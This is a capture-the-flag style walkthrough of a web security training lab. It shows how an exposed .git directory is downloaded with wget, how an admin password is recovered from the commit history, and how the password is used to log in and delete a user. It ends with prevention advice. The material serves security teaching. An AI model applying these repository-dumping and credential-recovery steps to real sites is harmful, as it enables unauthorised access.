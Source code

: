 -----

## Lab: Information disclosure in version control history — PRACTITIONER

### 🧠 Mission Description

This lab discloses sensitive information through its version control history. The goal is to exploit this to obtain the administrator's password, log in, and then delete the user "carlos."

### 🎯 Mission Objective

Obtain the administrator password, log in to the admin panel, and delete the user "carlos."

-----

### 🪜 Steps

1.  **Initial Reconnaissance:**

      * Checked the page source code – found nothing of interest.
      * Checked `/robots.txt` – also found nothing useful.

2.  **Discovering the `.git` directory:**

      * Tried navigating to `/.git` in the browser.
      * Successfully found an **exposed `.git` directory listing**, revealing the repository structure:
        ```
        Index of /.git
        Name      Size
        <branches>
        description   73B
        <hooks>
        <info>
        <refs>
        HEAD      23B
        config    157B
        <objects>
        index     225B
        COMMIT_EDITMSG    34B
        <logs>
        ```

3.  **Cloning the Git Repository:**

      * Used `wget` to recursively download a copy of the entire `.git` repository to my local machine:
        ```bash
        wget -r https://0a8f003a04287338804f4eda00f90034.web-security-academy.net/.git
        ```
      * Navigated into the downloaded directory to confirm the files were present:
        ```bash
        ┌──(abdelrahman_mostafa㉿kali)-[~/Desktop/0a8f003a04287338804f4eda00f90034.web-security-academy.net]
        └─$ ls -als
        total 12
        4 drwxrwxr-x  3 abdelrahman_mostafa abdelrahman_mostafa 4096 Jul 26 21:26 .
        4 drwxr-xr-x 14 abdelrahman_mostafa abdelrahman_mostafa 4096 Jul 26 21:26 ..
        4 drwxrwxr-x  7 abdelrahman_mostafa abdelrahman_mostafa 4096 Jul 26 21:26 .git

        ┌──(abdelrahman_mostafa㉿kali)-[~/Desktop/0a8f003a04287338804f4eda00f90034.web-security-academy.net]
        └─$ cd .git

        ┌──(abdelrahman_mostafa㉿kali)-[~/Desktop/0a8f003a04287338804f4eda00f90034.web-security-academy.net/.git]
        └─$ ls
        COMMIT_EDITMSG  config  description  HEAD  hooks  index  index.html  info  logs  objects  refs
        ```

4.  **Inspecting the Git Logs:**

      * Examined the `logs/HEAD` file to view the commit history:
        ```bash
        ┌──(abdelrahman_mostafa㉿kali)-[~/Desktop/0a8f003a04287338804f4eda00f90034.web-security-academy.net/.git]
        └─$ cat logs/HEAD

        0000000000000000000000000000000000000000 da081537479ece823870c88aff72a6946fa6fa38 Carlos Montoya <carlos@carlos-montoya.net> 1753553909 +0000   commit (initial): Add skeleton admin panel
        da081537479ece823870c88aff72a6946fa6fa38 c4feaf7fbeadd37bfd3d79c37b33089c09fa150e Carlos Montoya <carlos@carlos-montoya.net> 1753553909 +0000   commit: Remove admin password from config
        ```
      * Noticed a commit message: "Remove admin password from config" with the commit hash `c4feaf7fbeadd37bfd3d79c37b33089c09fa150e`. This strongly suggested sensitive information might have been present *before* this commit.

5.  **Retrieving the Password from a Previous Commit:**

      * Used `git show` with the suspicious commit hash to view its contents and changes:
        ```bash
        ┌──(abdelrahman_mostafa㉿kali)-[~/Desktop/0a8f003a04287338804f4eda00f90034.web-security-academy.net/git]
        └─$ git show c4feaf7fbeadd377bfd3d79c37b33089c09fa150e

        commit c4feaf7fbeadd37bfd3d79c37b33089c09fa150e (HEAD -> master)
        Author: Carlos Montoya <carlos@carlos-montoya.net>
        Date:   Tue Jun 23 14:05:07 2020 +0000

            Remove admin password from config

        diff --git a/admin.conf b/admin.conf
        index 0754869..21d23f1 100644
        --- a/admin.conf
        +++ b/admin.conf
        @@ -1 +1 @@
        -ADMIN_PASSWORD=mne5xocl1f8pkb7uql9f
        +ADMIN_PASSWORD=env('ADMIN_PASSWORD')
        ```
      * The `diff` output clearly showed the `ADMIN_PASSWORD` before it was removed: `mne5xocl1f8pkb7uql9f`.

6.  **Logging In and Deleting the User:**

      * Used the discovered credentials to log in:
          * **Username:** `administrator`
          * **Password:** `mne5xocl1f8pkb7uql9f`
      * Navigated to the admin panel and **deleted the user "carlos."**

-----

### 🧨 Flag is

The lab was solved by logging in as the administrator and deleting the `carlos` user. The password obtained was:

```
mne5xocl1f8pkb7uql9f
```

-----

### 📝 Notes

  * **Version Control Exposure:** Publicly accessible `.git` directories can expose the entire version history of an application.
  * **Sensitive Information in History:** Developers often commit sensitive data (like passwords, API keys, or private configuration) directly into the repository, even if it's later removed. These changes remain in the history and can be recovered.
  * **Automated Tools:** Tools like `git-dumper` or `GitTools` can automate the process of downloading and extracting information from exposed `.git` repositories.
  * **Prevention:** Always ensure `.git` directories are not publicly accessible on production servers (e.g., using proper web server configurations like `deny all` or `robots.txt` disallow rules, though `robots.txt` is advisory). Use environment variables or dedicated secret management systems for sensitive configurations instead of hardcoding them or committing them to version control, even temporarily.

-----

**Status: Solved ✅**
